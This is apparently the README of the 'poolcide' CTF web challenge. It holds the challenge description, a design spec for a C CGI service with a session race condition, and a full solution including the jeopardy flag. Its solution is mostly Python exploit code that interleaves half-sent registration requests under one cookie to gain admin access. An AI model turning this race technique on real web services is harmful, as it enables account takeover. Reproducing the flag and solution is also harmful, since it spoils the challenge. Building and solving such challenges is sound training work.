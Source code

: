 # poolcide

Welcome to the pool.

## Public Challenge Description.

Welcome to the pool.

Chill close to the waterfront after reserving your spot with your towel.
Our fine admins all have the same towel color, but of you will never see it.

## Secret Design Specification.

Poolcide is a web challenge that breaks the HTTP protocol a bit to facilitate a race condition.
It's written in C and players get the (obscure gcc89) source code.
With C preprocessor as templating language, etc.
As the service uses ASAN and FORTIFY_SOURCE, it does not provide an RCE, _even though_ it has a range of buffer overflows and even uses `gets` to read network input.

The service was originally designed for A/D, but works equally well as easy Jeopardy challenge.
It is based on a logic flaw/race condition.
As race conditions usually don't scale for A/D, this one can be exploited very slowly, as long as the attacker reuses the same Cookie for two logins.
For A/D, the bug would not be easy to see, as most traffic monitoring is per connection, and doesn't analyze interlaced connections.
The whole thing uses the python internal CGI server, I have no clue why it exists - but in comparison to other CGI servers, it doesn't read the complete request, but directly dups the body to the script's `stdin` after the header.
To drop the flag, the checker uses an `age` private key over a normal socket after the HTTP header was submitted.
The attacker also needs to understand and exploit this fact.

The hope here is that players learn about old-skool C, CGI, and logic flaws, even though their first instinct wants to PWN.
Oh and it supports modern web security mechanisms, such as CRSF tokens and CSP nonces, plus there is a range of fun red herings and memes in this.

## Full Solution Explanation.

In the checker folder, run
`./checker.py run exploit -a url -x 100000 | grep CTF`
a few times.

The flag for jeopardy mode is set to `FLAG=CTF{C-ing-1s-b3li3ving!}` in the [docker-compose.yml](./docker-compose.yml).

The exploit in [checker.py](./checker/checker.py):

- first registers an account to get the user list
- half-registers another user, but doesn't set the password - the serverthread will block in `readline`
- opens another socket, gets the csrf nonce to send half a POST with the same Cookie to register the admin user, doesn't set the password. This sets the username
- Finishes the first registration, this sets the logged-in state to 1.
- Reads the flag from the towel color.

```python
self.info("Step 1: get all available admin ids")
resp, cookie, csrf = self.register(self.random_user(), self.random_password())
admin_list = self.get_admin_list({COOKIE: cookie})
self.info(f"admins: {admin_list}")

found_flags = []
failed = []

for (admin_name, towel_id) in admin_list:
    try:
        self.info(
            f"Step 2: Start logging in as admin user with name {admin_name}"
        )
        resp, cookie, csrf = self.request_index()

        self.info("Step 3: Start registering a user - but without password")
        resp, cookie, csrf = self.request_index(cookies={COOKIE: cookie})

        self.debug(f"Cookie is {cookie}")

        sock_reg = self.connect(retries=8)

        http_reg = build_http(
            method="POST",
            query_params={"route": "register"},
            cookies={COOKIE: cookie},
            body_params={
                "username": f"ATTACKER{self.random_user()}",
                "csrf": csrf,
            },
        )

        # Write some dummy data to make sure our stuff got sent
        sock_reg.write(http_reg)
        time.sleep(0.007)
        sock_reg.write("\n\n\n\n\n")
        time.sleep(0.007)
        sock_reg.read_eager()

        self.info(
            "Step 4: Start registering the admin user (don't send the password) to set username"
        )

        sock_admin = self.connect(retries=8)
        resp, cookie, csrf = self.request_index(cookies={COOKIE: cookie})

        http_admin = build_http(
            method="POST",
            query_params={"route": "register"},
            cookies={COOKIE: cookie},
            body_params={"username": admin_name, "csrf": csrf},
        )
        sock_admin.write(http_admin)

        time.sleep(0.007)
        sock_admin.write("\n\n\n\n\n")
        time.sleep(0.007)
        sock_admin.read_eager()

        self.debug("step 5: finish register to set logged_in to 1")
        sock_reg.write(f"password={self.random_password()}\n")
        self.debug("Register complete. Should be logged in now.")
        self.debug(f"Register response: {sock_reg.read_until('</body>')}")
        sock_reg.close()
        self.info(
            "Now we should be logged in with the admin username. Get the towel!"
        )

        self.info(f"Final step - we are logged in as admin, read the flag.")
        get_flag = build_http(
            method="POST",
            query_params={"route": "towel", "token": towel_id},
            cookies={COOKIE: cookie},
        )
        sock_flag = self.connect(retries=8)
        sock_flag.write(get_flag)
        flag_response = ensure_unicode(sock_flag.read_until("</body>"))
        self.debug(f"Flag response: {flag_response}")

        flag_enc = flag_response.split('id="color">')[1].split("</code>")[0]
        flag = urllib.parse.unquote(html.unescape(flag_enc))
        self.warning(f"Found FLAG: {flag}")
        found_flags.append(flag)

        sock_reg.close()
        sock_admin.close()
        sock_flag.close()
    except Exception as ex:
        self.error(
            f"Could not get flag with towel_id {towel_id} for user {admin_name}: {ex}"
        )
        failed.append(admin_name)

self.info(f"Got {len(found_flags)} flags and failed for {len(failed)}")
```
